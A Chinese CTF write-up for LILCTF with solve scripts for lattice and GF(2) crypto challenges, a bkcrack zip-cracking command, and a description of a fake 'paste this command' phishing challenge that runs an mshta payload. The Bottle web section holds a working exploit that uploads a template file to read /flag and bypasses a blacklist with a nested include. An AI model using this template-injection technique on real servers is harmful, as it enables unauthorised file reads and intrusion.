

## 引子 

~~本来满怀信心打算在SekaiCTF打进前50的，结果Pwn和Rev方向的队友都各自有事没时间看题，今年的Sekai水温又比往年高出不少，Crypto和Web做了点简单题剩下的就爆零了，兜兜转转还是来打牢然的比赛了~~

周五牢然的比赛刚开的时候，我solo ak密码就能差不多排在前20；周日已经毕业的Web大跌回校玩，拉着他合力ak了Misc和Crypto，结果也挤不进前40🥲

> 我的贴纸啊，你在哪

## Crypto

### Linear

```python title="chall.py"
import os
import random
import signal

signal.alarm(10)

flag = os.getenv("LILCTF_FLAG", "LILCTF{default}")

nrows = 16
ncols = 32

A = [[random.randint(1, 1919810) for _ in range(ncols)] for _ in range(nrows)]
x = [random.randint(1, 114514) for _ in range(ncols)]

b = [sum(A[i][j] * x[j] for j in range(ncols)) for i in range(nrows)]
print(A)
print(b)

xx = list(map(int, input("Enter your solution: ").strip().split()))
if xx != x:
    print("Oh, your linear algebra needs to be practiced.")
else:
    print("Bravo! Here is your flag:")
    print(flag)
```

给了个欠定方程组，求出来解就能拿到flag。

我们知道 $\mathbin{A}*\vec{x} = \vec{b} \Rightarrow \mathbin{A}*\vec{x} - \vec{b}*1 = 0$，所以构造 $\mathbin{M} = \begin{pmatrix}A\\-b\end{pmatrix}$，那么对于 $y = [x_1, ..., x_{32}, 1]$ 就有 $M * y = 0$。因为 $x_i$ 比起系数算是小的数字，所以在M的右核空间里LLL一下就能拿到解。

```python title="solve.py"
from sage.all import *
from pwn import *
import ast

HOST = "challenge.xinshi.fun"
PORT = 44368
NROWS = 16
NCOLS = 32
p = remote(HOST, PORT)

p.recvuntil(b"[[")
A_line = b"[[" + p.recvline()
b_line = p.recvline()
A_list = ast.literal_eval(A_line.decode())
b_list = ast.literal_eval(b_line.decode())

A = Matrix(ZZ, A_list)
b = vector(ZZ, b_list)

# A*x = b -> A*x - b*1 = 0
# M = [A | -b]
# y = [x_1, ..., x_32, 1] -> M * y = 0
M = A.augment(-b)
M_ker = M.right_kernel().basis_matrix()
L = M_ker.LLL()
res = L[0]
last_val = res[-1]

assert last_val != 0

y = res / last_val
cands = y[:NCOLS]
ans = " ".join(map(str, cands))
p.sendlineafter(b"Enter your solution: ", ans.encode())
print(p.recvall().decode())
p.close()
```

### Space Travel

> 是我很喜欢的鸡块师傅的题

```python title="chall.py"
from Crypto.Cipher import AES
from hashlib import md5
from params import vecs
from os import urandom

key = int("".join([vecs[int.from_bytes(urandom(2)) & 0xfff] for _ in range(50)]), 2)

print("🎁 :", [[nonce := int(urandom(50*2).hex(), 16), (bin(nonce & key).count("1")) % 2] for _ in range(600)])
print("🚩 :", AES.new(key=md5(str(key).encode()).digest(), nonce=b"Tiffany", mode=AES.MODE_CTR).encrypt(open("flag.txt", "rb").read()))
```

还有个`params.py`，但是太长了所以就不放了，牢然说比赛似乎会开源，各位可以去源代码仓库(如果未来有的话)去看。

总之`vecs`里每个都是长16bit的二进制数码，总计 $2^{12}=4096$ 个。这题的`key`是从里面随机抽的50个拼起来的长800bit的字符串，用`key`基于AES-CTR加密了flag，然后给了我们600组长800bit的`nonce`以及nonce和key的异或后的hamming weight模2的值(这里的nonce不是AES里用的nonce)、AES用的nonce和密文，要我们求解`key`从而解密密文。

整体放到 $GF(2)$ 下考虑其实就是800个未知数和600组线性方程然后要我们解这个方程组而已。直觉上肯定会想格一格。

不过这里我嗅到了一丝不对，一方面是因为这个格的规模不小并且对精确度有要求，而矩阵本身和目标向量都是全01组成的所以想精确规约不容易；另一方面是，我上手之前检查了`vecs`组成的向量空间的维数，发现并非16,而是13。

这就说明我们可以通过一个线性映射在低维的向量空间里表示出`key`，这样我们需要的未知数就会少一点。不过 $800*\frac{13}{16}>600$，所以放到13维空间里表示之后方程也还是不够用。

这时候无敌的AI就入场了，把我的想法跟它讲了讲，它表示或许`vecs`具有一个12维的"仿射子空间"，意思是说`vecs`可以由一个更低维的空间经过仿射变换得到。

什么是仿射变换？我们知道平面几何上的仿射变换=伸缩+平移，写出来大概是 $Ax+b$ 这种形式，观点再高一点点，就可以想到`仿射变换=线性变换+平移`(至于更高观点的仿射代数簇，等我学到了再补充)

> 这里AI能猜到12维的"仿射子空间"是因为vecs的数量刚好就是2**12个，我猜鸡块是生成了所有12维GF(2)向量后整体平移了一下

那么这题现在就得想办法找出这个"仿射子空间"，那么就得知道`vecs`这组向量的平移量究竟是多少。按照上面的思路，原点(零向量)也是包括在原本的向量组里的，所以平移量就一定是`vecs`里的某个向量，遍历检查一下就好了。

> 然后我发现平移量刚好就是`vecs[0]`。
> 以及我使用的[检查脚本](https://github.com/Swizzzer/codeclips/blob/main/clips/is_affine_subspace.py)

那么我们就找到了这个"仿射子空间"，在子空间里用12维就能表示16维的 $\text{key}_i$，这样 $800*\frac{12}{16}=600$ 就有足够的方程，可以直接求解了。

```python title="solve.py"
from sage.all import GF, Matrix, vector
from Crypto.Cipher import AES
from hashlib import md5
import params
import ast


def b2vec(bitstr):
  F = GF(2)
  return vector(F, [int(c) for c in bitstr])


def zfill_b(n, length):
  return bin(n)[2:].zfill(length)


def parse_data(filename="output.txt"):
  with open(filename) as f:
    pairs = ast.literal_eval(f.readline().strip().split(": ")[-1])
    ct_bytes = ast.literal_eval(f.readline().strip().split(": ")[-1])
  return pairs, ct_bytes


def solve():
  pairs, ct_bytes = parse_data()
  vecs_list = params.vecs
  F = GF(2)
  V = [b2vec(s) for s in vecs_list]
  b = V[0]
  W = [v + b for v in V]
  M = Matrix(F, W)
  row_space = M.row_space()
  basis = row_space.basis()
  d = len(basis)
  if d != 12:
    print(f"[-] the dim of ves is {d}, but not 12")

  B = Matrix(F, basis)
  G = B.T
  num_eq = len(pairs)
  num_blocks = 50
  block_bits = 16
  total_bits = num_blocks * block_bits
  U = Matrix(F, num_eq, num_blocks * d)
  s_vec = []
  for t, (nonce_int, bit) in enumerate(pairs):
    if bit not in (0, 1):
      bit = int(bit) & 1

    nb = zfill_b(nonce_int, total_bits)
    a_blocks = [nb[i * block_bits : (i + 1) * block_bits] for i in range(num_blocks)]
    K_t = 0
    for j in range(num_blocks):
      a_vec = b2vec(a_blocks[j])
      K_t ^= int((a_vec * b) % 2)
    s_prime = (bit ^ K_t) & 1
    s_vec.append(s_prime)

    row = [0] * (num_blocks * d)
    for j in range(num_blocks):
      a_vec = b2vec(a_blocks[j])
      u = G.T * a_vec
      for k in range(d):
        row[j * d + k] = int(u[k])
    U[t, :] = vector(F, row)

  s_vec = vector(F, s_vec)
  try:
    w = U.solve_right(s_vec)
  except:
    print("[-] No solves")
    raise

  v_blocks_bits = []
  for j in range(num_blocks):
    wj = vector(F, [int(w[j * d + k]) for k in range(d)])
    vj = b + (G * wj)
    vj_bits = "".join(str(int(x)) for x in vj.list())
    assert len(vj_bits) == 16
    v_blocks_bits.append(vj_bits)

  key_bits = "".join(v_blocks_bits)
  key_int = int(key_bits, 2)

  aes_key = md5(str(key_int).encode()).digest()
  cipher = AES.new(key=aes_key, mode=AES.MODE_CTR, nonce=b"Tiffany")
  pt = cipher.decrypt(ct_bytes)

  print(f"[+] Flag:{pt}")


if __name__ == "__main__":
  solve()
```

||虽然我很喜欢鸡块师傅，但不得不说这题还是有点guessy||

### ez_math

签到题，不想看题也不想放附件，所以我直接丢给AI让它吐了个exp

```python title="solve.py" collapse={1-91}
# solve.py
# Python 3.8+
# 还原 C 的特征值 (λ1, λ2)，再转回字节并拼出 flag

p = 9620154777088870694266521670168986508003314866222315790126552504304846236696183733266828489404860276326158191906907396234236947215466295418632056113826161

# C = [C11, C12; C21, C22]
C11 = 7062910478232783138765983170626687981202937184255408287607971780139482616525215270216675887321965798418829038273232695370210503086491228434856538620699645
C12 = 7096268905956462643320137667780334763649635657732499491108171622164208662688609295607684620630301031789132814209784948222802930089030287484015336757787801
C21 = 7341430053606172329602911405905754386729224669425325419124733847060694853483825396200841609125574923525535532184467150746385826443392039086079562905059808
C22 = 2557244298856087555500538499542298526800377681966907502518580724165363620170968463050152602083665991230143669519866828587671059318627542153367879596260872

def long_to_bytes(n: int) -> bytes:
    if n == 0:
        return b'\x00'
    length = (n.bit_length() + 7) // 8
    return n.to_bytes(length, 'big')

def tonelli_shanks(a: int, p: int) -> int:
    """ 返回 x 使得 x^2 ≡ a (mod p)，若不存在返回 None。p 为奇素数 """
    a %= p
    if a == 0:
        return 0
    # Euler 判别
    if pow(a, (p - 1) // 2, p) == p - 1:
        return None
    # p ≡ 3 (mod 4) 的快路
    if p % 4 == 3:
        return pow(a, (p + 1) // 4, p)
    # 分解 p-1 = q * 2^s
    q = p - 1
    s = 0
    while q % 2 == 0:
        q //= 2
        s += 1
    # 找到一个非二次剩余 z
    z = 2
    while pow(z, (p - 1) // 2, p) != p - 1:
        z += 1
    m = s
    c = pow(z, q, p)
    t = pow(a, q, p)
    r = pow(a, (q + 1) // 2, p)
    while t != 1:
        # 找到最小 i 使 t^(2^i) == 1
        i = 1
        t2i = pow(t, 2, p)
        while t2i != 1:
            t2i = pow(t2i, 2, p)
            i += 1
            if i == m:
                return None
        b = pow(c, 1 << (m - i - 1), p)
        m = i
        c = (b * b) % p
        t = (t * c) % p
        r = (r * b) % p
    return r

# 2x2 矩阵的迹与行列式（都在 F_p 上）
tr = (C11 + C22) % p
det = (C11 * C22 - C12 * C21) % p

# 特征多项式 x^2 - tr*x + det = 0
# 判别式 Δ = tr^2 - 4*det
disc = (tr * tr - 4 * det) % p
s = tonelli_shanks(disc, p)
if s is None:
    raise ValueError("No square root for discriminant; eigenvalues not in F_p.")

inv2 = pow(2, -1, p)
lam1 = (tr + s) * inv2 % p
lam2 = (tr - s) * inv2 % p

# 还原两半字节
part1 = long_to_bytes(lam1)
part2 = long_to_bytes(lam2)

# 选择正确顺序（这里按更像英文句子的那半在前）
def is_preferred(b):
    return b[:1].isalpha()  # 以字母开头的优先
first, second = (part1, part2) if is_preferred(part1) else (part2, part1)

inner = first + second
flag = b"LILCTF{" + inner + b"}"

print("lambda1 =", lam1)
print("lambda2 =", lam2)
print("part1 =", part1)
print("part2 =", part2)
print("flag =", flag.decode('ascii'))
```

### mid_math

扫了一眼好像跟DLP有关系，不过依然懒得看题也懒得放附件，继续AI一把梭

```python title="solve.py" collapse={1-105}
# solve.sage

from sage.all import *
from Crypto.Util.number import long_to_bytes
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

# ======= Paste the instance here (from your commented block) =======
p = 14668080038311483271
C_list = [
 [11315841881544731102, 2283439871732792326, 6800685968958241983, 6426158106328779372, 9681186993951502212],
 [4729583429936371197, 9934441408437898498, 12454838789798706101, 1137624354220162514, 8961427323294527914],
 [12212265161975165517, 8264257544674837561, 10531819068765930248, 4088354401871232602, 14653951889442072670],
 [6045978019175462652, 11202714988272207073, 13562937263226951112, 6648446245634067896, 13902820281072641413],
 [1046075193917103481, 3617988773170202613, 3590111338369894405, 2646640112163975771, 5966864698750134707],
]
D_list = [
 [1785348659555163021, 3612773974290420260, 8587341808081935796, 4393730037042586815, 10490463205723658044],
 [10457678631610076741, 1645527195687648140, 13013316081830726847, 12925223531522879912, 5478687620744215372],
 [9878636900393157276, 13274969755872629366, 3231582918568068174, 7045188483430589163, 5126509884591016427],
 [4914941908205759200, 7480989013464904670, 5860406622199128154, 8016615177615097542, 13266674393818320551],
 [3005316032591310201, 6624508725257625760, 7972954954270186094, 5331046349070112118, 6127026494304272395],
]
msg = b"\xcc]B:\xe8\xbc\x91\xe2\x93\xaa\x88\x17\xc4\xe5\x97\x87@\x0fd\xb5p\x81\x1e\x98,Z\xe1n`\xaf\xe0%:\xb7\x8aD\x03\xd2Wu5\xcd\xc4#m'\xa7\xa4\x80\x0b\xf7\xda8\x1b\x82k#\xc1gP\xbd/\xb5j"

# ======= Finite field & matrices =======
Fp = GF(p)
C = Matrix(Fp, C_list)
D = Matrix(Fp, D_list)
n = C.nrows()
I = identity_matrix(Fp, n)

# ======= Recover key via eigenpairs & discrete logs =======
mods = []
residues = []

# Find eigenvalues of C in Fp (they are {a,b,c,d,0})
# charpoly().roots() works fine over GF(p) here
for lam in C.charpoly().roots(multiplicities=False):
    lam = Fp(lam)
    # Skip the zero eigenvalue (no info about key)
    if lam == 0:
        continue

    # Eigenspace for lambda
    K = (C - lam*I).right_kernel()
    assert K.dimension() >= 1
    v = vector(Fp, K.basis()[0])

    # Compute mu such that D v = mu v
    w = D * v
    # find first nonzero coordinate
    j = next(i for i in range(n) if v[i] != 0)
    mu = w[j] / v[j]  # in Fp

    # Solve mu = lam^k in <lam> (discrete log)
    ord_lam = lam.multiplicative_order()
    k_mod = discrete_log(mu, lam, ord=ord_lam)  # 0 <= k_mod < ord_lam
    mods.append(ord_lam)
    residues.append(Integer(k_mod))

# Combine congruences with CRT
M = lcm(mods)
k_mod_M = crt(residues, mods)  # in Z/MZ
k_mod_p1 = Integer(k_mod_M % (p-1))

# Lift key to the original range [2^62, p] (unique in that interval)
low = Integer(2**62)
key_candidates = []
# We step by M until we fall into the desired interval
cand = k_mod_M
if cand < low:
    t = ((low - cand) + M - 1) // M
    cand += t * M
# One of {cand, cand+M} will be <= p; prefer the one that satisfies C^key == D
for t in range(0, 3):
    x = cand + t*M
    if x <= p:
        key_candidates.append(Integer(x))

# Validate candidates by checking C^key == D
key = None
for kc in key_candidates:
    if C**kc == D:
        key = kc
        break

# Fallback: if not matched yet (rare), also try representative modulo (p-1)
if key is None:
    kc = k_mod_p1
    if C**kc == D:
        key = kc

assert key is not None, "Failed to recover key"
print(f"[+] key found: {key}")

# ======= Decrypt AES-ECB =======
# The challenge pads the integer key to 16 bytes (PKCS#7) BEFORE AES:
key_bytes = pad(long_to_bytes(int(key)), 16)
cipher = AES.new(bytes(key_bytes), AES.MODE_ECB)
pt_padded = cipher.decrypt(bytes(msg))
# Plaintext had been padded to 64 bytes before encryption -> unpad with block_size=64
pt = unpad(pt_padded, 64)
print(f"[+] plaintext: {pt!r}")
```

### baaaaaag

```python title="chall.py" collapse={29-31}
from Crypto.Util.number import *
import random
from Crypto.Cipher import AES
import hashlib
from Crypto.Util.Padding import pad
from secret import flag

p = random.getrandbits(72)
assert len(bin(p)[2:]) == 72

a = [getPrime(90) for _ in range(72)]
b = 0
t = p
for i in a:
    temp = t % 2
    b += temp * i
    t = t >> 1

key = hashlib.sha256(str(p).encode()).digest()
cipher = AES.new(key, AES.MODE_ECB)
flag = pad(flag,16)
ciphertext = cipher.encrypt(flag)

print(f'a = {a}')
print(f'b = {b}')
print(f"ciphertext = {ciphertext}")

'''
a = [965032030645819473226880279, 699680391768891665598556373, 1022177754214744901247677527, 680767714574395595448529297, 1051144590442830830160656147, 1168660688736302219798380151, 796387349856554292443995049, 740579849809188939723024937, 940772121362440582976978071, 787438752754751885229607747, 1057710371763143522769262019, 792170184324681833710987771, 912844392679297386754386581, 906787506373115208506221831, 1073356067972226734803331711, 1230248891920689478236428803, 713426848479513005774497331, 979527247256538239116435051, 979496765566798546828265437, 836939515442243300252499479, 1185281999050646451167583269, 673490198827213717568519179, 776378201435505605316348517, 809920773352200236442451667, 1032450692535471534282750757, 1116346000400545215913754039, 1147788846283552769049123803, 994439464049503065517009393, 825645323767262265006257537, 1076742721724413264636318241, 731782018659142904179016783, 656162889354758353371699131, 1045520414263498704019552571, 1213714972395170583781976983, 949950729999198576080781001, 1150032993579134750099465519, 975992662970919388672800773, 1129148699796142943831843099, 898871798141537568624106939, 997718314505250470787513281, 631543452089232890507925619, 831335899173370929279633943, 1186748765521175593031174791, 884252194903912680865071301, 1016020417916761281986717467, 896205582917201847609656147, 959440423632738884107086307, 993368100536690520995612807, 702602277993849887546504851, 1102807438605649402749034481, 629539427333081638691538089, 887663258680338594196147387, 1001965883259152684661493409, 1043811683483962480162133633, 938713759383186904819771339, 1023699641268310599371568653, 784025822858960757703945309, 986182634512707587971047731, 1064739425741411525721437119, 1209428051066908071290286953, 667510673843333963641751177, 642828919542760339851273551, 1086628537309368288204342599, 1084848944960506663668298859, 667827295200373631038775959, 752634137348312783761723507, 707994297795744761368888949, 747998982630688589828284363, 710184791175333909291593189, 651183930154725716807946709, 724836607223400074343868079, 1118993538091590299721647899]
b = 34962396275078207988771864327
ciphertext = b'Lo~G\xf46>\xd609\x8e\x8e\xf5\xf83\xb5\xf0\x8f\x9f6&\xea\x02\xfa\xb1_L\x85\x93\x93\xf7,`|\xc6\xbe\x05&\x85\x8bC\xcd\xe6?TV4q'
'''
```

非常经典的背包问题，不过似乎我给非预期了。看flag预期解应该是爆破几个bits然后造格规约，可惜我用BKZ调一下`block_size`就直接出了。

> 出题人似乎不知道BKZ是可以调block_size的？虽然我曾经给校赛出题的时候也被这个参数坑过XD

```python title="solve.py" collapse={5-9}
from sage.all import *
from Crypto.Util.number import *
from Crypto.Cipher import AES
import hashlib
# fmt:off
a = [965032030645819473226880279, 699680391768891665598556373, 1022177754214744901247677527, 680767714574395595448529297, 1051144590442830830160656147, 1168660688736302219798380151, 796387349856554292443995049, 740579849809188939723024937, 940772121362440582976978071, 787438752754751885229607747, 1057710371763143522769262019, 792170184324681833710987771, 912844392679297386754386581, 906787506373115208506221831, 1073356067972226734803331711, 1230248891920689478236428803, 713426848479513005774497331, 979527247256538239116435051, 979496765566798546828265437, 836939515442243300252499479, 1185281999050646451167583269, 673490198827213717568519179, 776378201435505605316348517, 809920773352200236442451667, 1032450692535471534282750757, 1116346000400545215913754039, 1147788846283552769049123803, 994439464049503065517009393, 825645323767262265006257537, 1076742721724413264636318241, 731782018659142904179016783, 656162889354758353371699131, 1045520414263498704019552571, 1213714972395170583781976983, 949950729999198576080781001, 1150032993579134750099465519, 975992662970919388672800773, 1129148699796142943831843099, 898871798141537568624106939, 997718314505250470787513281, 631543452089232890507925619, 831335899173370929279633943, 1186748765521175593031174791, 884252194903912680865071301, 1016020417916761281986717467, 896205582917201847609656147, 959440423632738884107086307, 993368100536690520995612807, 702602277993849887546504851, 1102807438605649402749034481, 629539427333081638691538089, 887663258680338594196147387, 1001965883259152684661493409, 1043811683483962480162133633, 938713759383186904819771339, 1023699641268310599371568653, 784025822858960757703945309, 986182634512707587971047731, 1064739425741411525721437119, 1209428051066908071290286953, 667510673843333963641751177, 642828919542760339851273551, 1086628537309368288204342599, 1084848944960506663668298859, 667827295200373631038775959, 752634137348312783761723507, 707994297795744761368888949, 747998982630688589828284363, 710184791175333909291593189, 651183930154725716807946709, 724836607223400074343868079, 1118993538091590299721647899]
b = 34962396275078207988771864327
ciphertext = b'Lo~G\xf46>\xd609\x8e\x8e\xf5\xf83\xb5\xf0\x8f\x9f6&\xea\x02\xfa\xb1_L\x85\x93\x93\xf7,`|\xc6\xbe\x05&\x85\x8bC\xcd\xe6?TV4q'
# fmt:on

M = identity_matrix(len(a) + 1).augment(vector(a + [-b]))
M = (2 * identity_matrix(len(a))).augment(vector(a)).stack(vector([1] * len(a) + [b]))
M[:, -1] *= 2**8
L = M.LLL()
L = L.BKZ(block_size=35)
for row in L:
  if row[-1] == 0 and all(abs(x) <= 1 for x in row[:-1]):
    res = "".join(str(abs(x - 1) // 2) for x in row[:-1])[::-1]
    print(res)
    break

p = int(res, 2)
key = hashlib.sha256(str(p).encode()).digest()
cipher = AES.new(key, AES.MODE_ECB)
print(cipher.decrypt(ciphertext))
```

## Misc

### 提前放出附件

没记错的话题面是在cue今年国赛的半决赛？记得当时放出附件之后我一直在尝试明文攻击(虽然没成功)

回到这题，zip里是个tar。本地打包了个tar发现对于打包了单个文件的tar文件，tar的前x字节是tar里的文件名+0填充。这里我猜了一手tar里的文件名是`flag.txt`，那么tar文件的前12字节就是`666c61672e74787400000000`，`bkcrack`一把梭。

`bkcrack -C 162319_misc-public-ahead.zip  -c flag.tar -x 0 666c61672e74787400000000 -U dec.zip ""`

> 当然，都用-x指定偏移了其实不猜文件名也行，不过我就是喜欢猜（

### *v我50(R)MB

[@cheng_xing](https://sakuraraindrop.github.io/)做的，听说是什么`请求走私`，之后复现看看。

### *PNG Master

主要是[@cheng_xing](https://sakuraraindrop.github.io/)在看，我只负责zsteg一把梭，识别出几段base64+zlib里藏的压缩包然后交给他。

## Web
### ez_bottle

完全没看，Copilot开Agent模式一把梭的。

```python title="solve.py"
import io, re, zipfile, requests

BASE = "http://challenge.xinshi.fun:31675"

def upload_zip(bytes_):
    r = requests.post(f"{BASE}/upload", files={"file": ("poc.zip", bytes_, "application/zip")}, timeout=10)
    r.raise_for_status()
    # 从 “访问: /view/<md5>/<first_file>” 里抓 md5
    m = re.search(r"/view/([0-9a-f]{32})/", r.text)
    if not m:
        raise RuntimeError("未从返回中解析出 md5")
    return m.group(1), r.text

def build_zip_single(name, content):
    buf = io.BytesIO()
    with zipfile.ZipFile(buf, "w", compression=zipfile.ZIP_DEFLATED) as z:
        z.writestr(name, content)
    return buf.getvalue()

def main():
    # 1) A 包：上传 evil.tpl（真正的读文件逻辑在这里）
    evil = "{{!open('/flag').read()}}\n"
    zA = build_zip_single("evil.tpl", evil)
    md5_A, respA = upload_zip(zA)
    print("[*] 第一次上传 md5_A =", md5_A)

    # 2) B 包：上传 driver.tpl（只做 include，绕过黑名单）
    driver = f"% include('uploads/{md5_A}/evil.tpl')\n"
    zB = build_zip_single("driver.tpl", driver)
    md5_B, respB = upload_zip(zB)
    print("[*] 第二次上传 md5_B =", md5_B)

    # 3) 访问 B 包入口模板，触发 include -> 执行 evil.tpl -> 输出 /flag
    url = f"{BASE}/view/{md5_B}/driver.tpl"
    print("[*] 访问：", url)
    r = requests.get(url, timeout=10)
    r.raise_for_status()
    print("\n==== /flag 内容（渲染结果） ====\n")
    print(r.text)

if __name__ == "__main__":
    main()
```

## Reverse
### 1'M no7 A rO6oT

题目靶机仿了之前很火的投递#LummaStealer的钓鱼网站，让你粘贴运行的命令行其实是下载了个mp3然后调用mshta执行。

> 这个mp3的封面图右下角似乎有些像素被破坏了，刚上手的时候在这里研究了好一阵子

这个mp3既能被播放也能被执行的原因我猜是其中被HTAxxxx标记的一部分，可能在mshta看来这玩意儿就像shell里的Shebang。不过总之它能执行就对了。所以，让我们无脑相信牢然写的东西一定无害，在Windows设备上直接执行！~~然后它被我设备上的ESET杀掉了~~

嘛，那就放在云沙箱用mshta手动执行一下：



能看到核心在于powershell的命令行，复制出来改一下，不让它直接执行而是写入到文件，能得到

```txt title="bestudding.txt" collapse={1-1}
不放附件，这玩意儿太容易被杀毒软件识别为混淆脚本然后直接杀掉了 
```

转ASCII就能看到flag。